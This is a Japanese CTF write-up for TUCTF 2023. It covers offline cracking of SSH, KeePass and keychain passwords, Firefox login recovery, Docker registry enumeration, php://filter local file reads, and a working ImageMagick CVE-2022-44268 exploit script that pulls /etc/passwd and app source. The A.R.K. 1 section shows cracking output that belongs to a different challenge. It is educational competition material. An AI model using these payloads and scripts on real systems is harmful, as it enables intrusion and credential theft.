


# TUCTF 2023 Writeup

TUCTF 2023（<https://ctftime.org/event/2173/>）に参加しました。  
金, 01 12月 2023, 17:00 UTC — 日, 03 12月 2023, 17:00 UTC

競技終了後に問題サーバが閉じられてしまったので、簡潔に書きます。  
サーバに負荷がかかっていたのか、Webサーバとの通信が悪かったです。

<!-- @import "[TOC]" {cmd="toc" depthFrom=2 depthTo=3 orderedList=false} -->

<!-- code_chunk_output -->

- [Misc](#misc)
  - [A.R.K. 1](#ark-1)
  - [A.R.K. 2](#ark-2)
  - [A.R.K. 3](#ark-3)
  - [A.R.K. 4](#ark-4)
  - [Silly Registry](#silly-registry)
  - [Secret Agent](#secret-agent)
- [Web](#web)
  - [PHP Practive](#php-practive)
  - [PNG and Jelly Sandwich](#png-and-jelly-sandwich)

<!-- /code_chunk_output -->

## Misc

### A.R.K. 1

`sheep`というファイルが渡されます。  
fileコマンドで調べると、OpenSSHの秘密鍵であることがわかるので、後はJohn the Ripperでクラックするだけです。  
問題文に、パスワードには`sheep`という文字が含まれると書いてあるので、rockyouワードリストからsheepが含まれるもののみ抽出します。

```sh
$ file sheep
sheep: OpenSSH private key
```

```sh
ssh2john sheep > sheep_hash
```

```sh
$ grep sheep /usr/share/wordlists/rockyou.txt > wl_sheep
$ john --wordlist=wl_woof woof_hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
wholetthedogsout (woof)
1g 0:00:00:03 DONE (2023-12-01 22:07) 0.3257g/s 312.7p/s 312.7c/s 312.7C/s zippydog..the dog
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

- Flag

```text
TUCTF{baabaablacksheep}
```

### A.R.K. 2

`woof`というファイルが渡されます。  
fileコマンドで調べると、KeePassファイルということが分かるので、後はJohn the Ripperでクラックするだけです。  
問題文に、パスワードには`dog`という文字が含まれると書いてありました。

```sh
$ file woof
woof: Keepass password database 2.x KDBX
```

```sh
keepass2john woof > woof_hash
```

```sh
$ grep dog /usr/share/wordlists/rockyou.txt > wl_woof
$ john --wordlist=wl_woof woof_hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
wholetthedogsout (woof)
1g 0:00:00:03 DONE (2023-12-01 22:07) 0.3257g/s 312.7p/s 312.7c/s 312.7C/s zippydog..the dog
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

ゴミ箱にflagと書かれたキーがあり、Historyから復元することでフラグがもらえました。



- Flag

```text
TUCTF{K3eP_M4_Pa$s_rE4L_SaF3}
```

### A.R.K. 3

`meow`というファイルが渡されます。  
fileコマンドで調べると、Mac OS XのKeychainということが分かるので、後はJohn the Ripperでクラックするだけです。  
問題文に、パスワードには`meow`という文字が含まれると書いてありました。

```sh
$ file meow
meow: Mac OS X Keychain File
```

```sh
keychain2john meow > meow_hash
```

```sh
$ grep meow /usr/share/wordlists/rockyou.txt > wl_meow
$ john --wordlist=wl_meow meow_hash
Note: This format may emit false positives, so it will keep trying even after finding a possible candidate.
Using default input encoding: UTF-8
Loaded 1 password hash (keychain, Mac OS X Keychain [PBKDF2-SHA1 3DES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
coolcatmeow      (meow)
1g 0:00:00:00 DONE (2023-12-01 22:08) 25.00g/s 32175p/s 32175c/s 32175C/s 0223meow..!#%&meow12345
Session completed.
```

Mac OSで開くとパスワードの中にあるフラグが書かれていました。

- Flag

```text
TUCTF{k3YCh41ns_AR3_sUp3r_c00L}
```

### A.R.K. 4

`fox`というファイルが渡されます。  
fileコマンドで調べると、Zipファイルであることがわかります。

```sh
$ file fox
fox: Zip archive data, at least v1.0 to extract, compression method=store
```

```sh
$ zipinfo fox.zip
Archive:  fox.zip
Zip file size: 3145360 bytes, number of entries: 118
drwxr-xr-x  3.0 unx        0 bx stor 23-Nov-27 22:29 fox/
-rw-r--r--  3.0 unx    98304 bx defN 23-Nov-27 22:29 fox/webappsstore.sqlite
-rw-r--r--  3.0 unx  5242880 bx defN 23-Nov-27 22:29 fox/favicons.sqlite
drwxr-xr-x  3.0 unx        0 bx stor 23-Nov-27 22:29 fox/sessionstore-backups/
-rw-r--r--  3.0 unx     7214 bx defN 23-Nov-27 22:29 fox/sessionstore-backups/recovery.baklz4
-rw-r--r--  3.0 unx     7329 bx defN 23-Nov-27 22:29 fox/sessionstore-backups/recovery.jsonlz4
-rw-r--r--  3.0 unx      368 bx defN 23-Nov-27 22:29 fox/search.json.mozlz4
-rw-r--r--  3.0 unx      171 tx defN 23-Nov-27 22:29 fox/compatibility.ini
-rw-r--r--  3.0 unx     5253 bx defN 23-Nov-27 22:29 fox/addonStartup.json.lz4
-rw-r--r--  3.0 unx      221 tx defN 23-Nov-27 22:29 fox/broadcast-listeners.json
-rw-r--r--  3.0 unx       90 tx defN 23-Nov-27 22:29 fox/sessionCheckpoints.json
...
-rw-r--r--  3.0 unx   294912 bx defN 23-Nov-27 22:29 fox/key4.db
-rw-r--r--  3.0 unx     1185 tx defN 23-Nov-27 22:29 fox/extension-preferences.json
-rw-r--r--  3.0 unx      656 tx defN 23-Nov-27 22:29 fox/logins.json
-rw-r--r--  3.0 unx  2197096 bx defN 23-Nov-27 22:29 fox/places.sqlite-wal
-rw-r--r--  3.0 unx   524288 bx defN 23-Nov-27 22:29 fox/cookies.sqlite
-rw-r--r--  3.0 unx    12264 tx defN 23-Nov-27 22:29 fox/prefs.js
-rw-r--r--  3.0 unx   262144 bx defN 23-Nov-27 22:29 fox/content-prefs.sqlite
-rw-r--r--  3.0 unx      143 tx defN 23-Nov-27 22:29 fox/xulstore.json
118 files, 28641147 bytes uncompressed, 3119770 bytes compressed:  89.1%
```

特にパスワードはかかっていないため、Zipファイルを展開してみると、Firefoxのプロファイルデータが入っています。

以下の記事を見ると、Firefoxでは古いプロファイルから必要な情報を復旧することができるようです。

- <https://support.mozilla.org/ja/kb/recovering-important-data-from-an-old-profile#w_pasuwado>

Firefoxを開いて、`about:profiles`からプロファイル作ります。  
その後、作成したプロファイルのディレクトリにある、`key4.db`と`logins.json`を上書きします。

```sh
cp key4.db logins.json /home/kali/.mozilla/firefox/5u62ca7b.ctf_fox_2/.
```

Firefoxを再起動して、該当のプロファイルでパスワード管理画面を開くとフラグがありました。



- Flag

```text
TUCTF{B3w4R3_7h3_f1r3_4nd_7h3_f0x}
```

- 余談

わざわざFirefoxを使う必要はなく、`key4.db`をクラックするツールを使えば楽に解けるようです。  
<https://github.com/lclevy/firepwd>

### Silly Registry

解けなかった問題です。

`chal.tuctf.com:30003`が渡されます。  
問題文から何らかのRegistryだろうということはわかりますが、`http://chal.tuctf.com:30003`にアクセスしても何も表示されません。
（空白ページのため、Webサーバは動作しているっぽいです。）

CTFで負荷はかけたくないですが、仕方がないので、Gobusterでディレクトリを探索します。  
すると、`/v2/`というディレクトリが見つかりました。

- `http://chal.tuctf.com:30003/v2/`

```http
HTTP/1.1 401 Unauthorized
Content-Type: application/json; charset=utf-8
Docker-Distribution-Api-Version: registry/2.0
Www-Authenticate: Bearer realm="silly-realm",service="silly-service"
X-Content-Type-Options: nosniff
Date: Sat, 02 Dec 2023 15:51:49 GMT
Content-Length: 87
Connection: close

{"errors":[{"code":"UNAUTHORIZED","message":"authentication required","detail":null}]}
```

HTTPヘッダで調べると、Docker Registryということがわかります。  

以下のcurlでイメージ一覧を取得します。  
Authorizationヘッダの値はなんでも良いみたいでした。

```sh
curl -H 'Authorization: Bearer YWRtaW46YWRtaW4=' http://chal.tuctf.com:30003/v2/_catalog
```

同様に、`http://chal.tuctf.com:30003/v2/silly-container/manifests/latest`を見ると、設定も確認できました。  

しかし、いざpullしようとすると、以下のようなエラーになりました。

```sh
$ docker pull chal.tuctf.com:30003/silly-container:latest
Error response from daemon: Head "http://chal.tuctf.com:30003/v2/silly-container/manifests/latest": Get "silly-realm?scope=repository%3Asilly-container%3Apull&service=silly-service": unsupported protocol scheme ""
```

どうやら、pullする以外にもデータを取得する方法はあるみたいでした。  
<https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry>

DockerRegistryGrabber: <https://github.com/Syzik/DockerRegistryGrabber>

```sh
python drg.py -A 'test' http://chal.tuctf.com:30003/v2/ --dump_all
```

### Secret Agent

`nc chal.tuctf.com 30012`が渡されます。  
実行すると、KEYを求められますが、`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`とか長い文字列を入れるとそのまま次の処理に進みました。

```sh
$ nc chal.tuctf.com 30012
WELCOME TO THE EASY CHALLENGE. AM I TYPING SLOW? STOP ME. HAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHAHA AW MAN! I'm supposed to at least show you the door, but I won't give you the key.
KEY: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

      o*0000000gp
   oo000         '0o
   000             0
  000               00
 000 o               00
 000 oo              00
 0000 oo             079
   oo00           o077797
      0*0000000*97 67777777
                       6777778
                         777778
                           777776
                             77777

Congratulations! You are now part of the Detective Society. You will be given a map that contains 19 cities.

-------------------------------------------------------------------
Option 1: Warning Message
Option 2: Map
Option 3: Mission 1
Option 4: Mission 2
Option 5: Mission 3
Select an Option:
```

3つのミッションを達成するとフラグがもらえるようです。

#### Mission 1

問題自体は、最短経路問題で難しくないのですが、問題が図ではなく、テキストで与えられるため図を作成するのに時間がかかりました。

問題は以下のように渡されます。（しかも一文字ずつ出力）

```sh
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
- Current Location:Attaya
- Description: Welcome home. This is where your station is based. It is 10 miles from Belandris. Although it is generally safe here, be on guard to keep our base location from being leaked. Charity is 3 miles from here, and Delato is 5 miles from here.
- Next City Options:  | Belandris |  | Charity |  | Delato | 
Next Location to Investigate: Belandris

++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++                                                                  
- Current Location:Belandris
- Description: It is know to be place inhabited with peaceful citizens. It is 15 miles from Jolat. They have a yearly tradition of going to Gevani, which is 8 miles from here. If evacuation is necessary, Emell is 1 mile from here.
- Next City Options:  | Jolat |  | Gevani |  | Emell | 
Next Location to Investigate: Jolat

<SNIP>
```

図さえ書けてしまえば後は最短経路を求めるだけです。  

```text
Attaya -> Charity -> Emell -> Iyona -> Kepliker -> Osiros -> Rhenora -> Shariot
```

正解すると、次の問題のKey`good_job_agent1089`がもらえます。

#### Mission 2

```sh
Input the Key: good_job_agent1089
CORRECT KEY.
Decode -->  ⠥⠞⠀⠞⠉⠀⠎⠊⠋⠀⠍⠁⠀⠵⠁⠀⠝⠊⠀⠺⠊⠛⠀⠇⠇⠊⠀⠕⠉⠀⠍⠀⠑⠀⠃⠀⠅⠉⠁⠀⠛⠁⠀⠝⠊⠁This will unlock your flag.
```

明らかに点字なので、点字をアルファベットに変換します。  

```text
UT TC SIF MA ZA NI WIG LLI OC M E B KCA GA NIA
```

そのままだと意味がわかりませんが、明らかに怪しいスペースが空いています。  
スペースごとに区切って逆にすると、意味のある文章になりました。

```text
TUCTFISAMAZINGIWILLCOMEBACKAGAIN
```

#### Mission 3

Mission 2で取得した文字列を入力するとフラグがもらえました。

- Flag

```text
TUCTF{CONTINUE_THE_GOOD_WORK_2023}
```

## Web

### PHP Practive

URLを入れる入力フォームがあります。  
fileスキームを使うとローカルファイルが取得できたので、残りはフラグの場所を探すだけです。

該当のソース`display.php`を見ても特に気になるものは書いてありませんでした。  
`php://filter`で`.htaccess`を見ると、フラグのファイル名が書いてありました。

- `link=php://filter/convert.base64-encode/resource=.htaccess`

```text
<Files "gcfYAvzsbyxV.txt">
    order deny,allow
    deny from all
    allow from localhost 127.0.0.1 0.0.0.0
</Files>
```

同様に、`link=php://filter/convert.base64-encode/resource=gcfYAvzsbyxV.txt`でフラグが書かれたファイルを取得できました。

- Flag

```text
TUCTF{th1s_i5_my_secr3t_l0c@l_f1le!}
```

### PNG and Jelly Sandwich

解けなかった問題です。

PNG画像のサイズを変換する機能があります。  
サービス名が`Magic Image Resizer`となっており、明らかにImageMagickの脆弱性を狙っていると思われます。

チームメンバーから、`CVE-2022-44268`でサーバ内の任意のファイルが読み込めるとのことで、実際に`/etc/passwd`の情報を取得できました。

- 調査用の雑コード。`send.py`
  - コマンド： `./send.py /etc/passwd`
  - 参考：<https://github.com/entr0pie/CVE-2022-44268>

```py
#!/bin/python3
import sys
import os
import requests
import re
import random
from png import Reader, write_chunks

if __name__ == "__main__":
  if len(sys.argv) != 2:
      print(f"Usage: {sys.argv[0]} <file>")
      exit(1)
  
  LFI = sys.argv[1]
  reader = Reader(filename='source.png')
  chunks = list(reader.chunks())
  chunk_field = (b"tEXt", f"Profile\x00{LFI}".encode())
  chunks.insert(1, chunk_field)
  file = open('output.png', 'wb')
  write_chunks(file, chunks)
  file.close()

  url = 'https://magic-image.tuctf.com/'
  file = {'file': open('output.png', 'rb')}
  res = requests.post(url, files=file)

  print(f'status: {res.status_code}')

  regex = re.compile(r'')
  r = regex.findall(res.text)

  if len(r) != 1 :
     print('failed')
     exit(1)

  print(f'file: {r[0]}')

  filename = f'{random.randrange(100000, 999999)}.png'
  os.system(f'wget {url}{r[0][1:]} -O {filename}')
  os.system(f'identify -verbose {filename}')
```

変換後のファイル情報から`/challenge`というディレクトリ配下にアプリのソースがあることはわかりましたが、
肝心のソースファイルやフラグファイルがどこにあるのかわかりませんでした。  

どうやら、`/challenge/app.py`が当たりだったようです。  
後から分かったのですが、`/challenge/app.py`は確認していたのですが、`CVE-2022-44268`で取得できるProfile情報の見方が間違っていたようで、ちゃんとデータが取れていたようです。
（他の画像ファイルとサイズを比較していればすぐに気づけたと思います。）

Profileにそのままは出力される時とされない時があるようです。サイズの大小？

- Rawとして出力される場合

```sh
$ identify -verbose 290577.png
<SNIP>
    Raw profile type: 

     313
323836313720286d616769636b292052203238363136203120312030202d312034313934
353630203239302030203020302030203020302030203230203020312030203539333932
323220313033303535333620313239362031383434363734343037333730393535313631
352039343736303730393635363537362039343736303731333231323533332031343037
323238373934333334343020302030203020302031363738313331322038343036323437
203020302030203137203120302030203020302030203934373630373134313236383332
203934373630373134333335313336203934373630373433313239303838203134303732
323837393433343038302031343037323238373934333432373920313430373232383739
3433343237392031343037323238373934333437333520300a

    signature: 72b13485f86a589c11ef53384f9944c990abe38c93c9f6fd75442f3efd19e3c4
  Artifacts:
<SNIP>
```

- 出力されない場合

```sh
$ identify -verbose 995533.png
<SNIP>
    signature: 72b13485f86a589c11ef53384f9944c990abe38c93c9f6fd75442f3efd19e3c4
  Profiles:
    Profile-py: 2553 bytes
  Artifacts:
    filename: 995533.png
    verbose: true
<SNIP>
```

そのまま出力されない場合でも、以下のようにすると確認ができるようです。

```sh
$ exiftool 995533.png -b
Warning: [minor] Text chunk(s) found after PNG IDAT (may be ignored by some readers) - 995533.png
11.88995533.png.19272023:12:03 20:03:24+09:002023:12:04 22:26:20+09:002023:12:03 20:03:22+09:00644PNGPNGimage/png10241800002.22552023:12:03 11:03:24
py
    2553
66726f6d20666c61736b20696d706f727420466c61736b2c2072656e6465725f74656d70
6c6174652c20726571756573742c2073656e645f66696c652c20666c6173682c20726564
69726563742c2075726c5f666f722c2073656e645f66726f6d5f6469726563746f72790d
<SNIP>
3d3d20225f5f6d61696e5f5f223a0d0a202020206170702e72756e2864656275673d4661
6c73652c20706f72743d383030302c20686f73743d22302e302e302e3022290d0a
[minor] Text chunk(s) found after PNG IDAT (may be ignored by some readers)2023-12-03T11:03:24+00:002023-12-03T11:03:24+00:002023-12-03T11:03:24+00:00/challenge/./uploads/IM-1701601404.63588017016014041024 10.001024
```

後はHexをデコードすることで、中身を確認することができます。

- `/challenge/app.py`

```py
from flask import Flask, render_template, request, send_file, flash, redirect, url_for, send_from_directory
import os
from werkzeug.utils import secure_filename
# import uuid
from datetime import datetime

app = Flask(__name__)

UPLOAD_FOLDER = './uploads'
ALLOWED_EXTENSIONS = {'png'}
MAX_FILE_SIZE = 5 * 1024 * 1024  # 5 MB
MAX_UPLOADS = 250

app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
app.config['MAX_CONTENT_LENGTH'] = MAX_FILE_SIZE
app.config['MAX_UPLOADS'] = MAX_UPLOADS
app.secret_key = 'super_secret_key'  # Needed for flashing messages

def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST" and "file" in request.files:
        file = request.files["file"]
        filetype = file.mimetype.split("/")[-1]

        if file and allowed_file(file.filename):
            # Check file size on the server side
            if len(file.read()) > MAX_FILE_SIZE:
                flash("File size exceeds the maximum allowed.", 'error')
                return redirect(request.url)

            # Reset file pointer after reading
            file.seek(0)

            # Clean uploads directory if needed
            if len(os.listdir(app.config['UPLOAD_FOLDER'])) > app.config['MAX_UPLOADS']:
                os.system("rm uploads/IM-17*")

            # Save the uploaded file
            filename = secure_filename( f"IM-{ str(datetime.utcnow().timestamp()).ljust(17, '0') }.{filetype}" )
            file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
            file.save(file_path)

            # Process the image with the external ImageMagick binary
            os.system(f'./magick convert {file_path} -set exif:UnixTimestamp "{filename.replace("IM-", "").rsplit(".", 1)[0]}" -set exif:RemoteFilepath "{os.path.join(os.getcwd(), file_path)}" -resize 400%x50%! {file_path}')

            # Pass the filenames to the template for display
            return render_template("index.html", original=filename, modified=filename)

    return render_template("index.html", original=None, modified=None)

@app.route('/uploads/<filename>')
def uploaded_file(filename):
    filename = filename.replace("IM-1699795428.000000", "IM-1699795427.000000") # don't display the flag publicly 
    return send_from_directory(app.config['UPLOAD_FOLDER'], filename)

if __name__ == "__main__":
    app.run(debug=False, port=8000, host="0.0.0.0")
```

ソースを見ると、最後らへんに書いてある`IM-1699795428.000000`という部分が怪しそうです。  
競技終了後のため確認まではできていませんが、`/uploads/IM-1699795428.000000`にアクセスすることでフラグがもらえたようです。
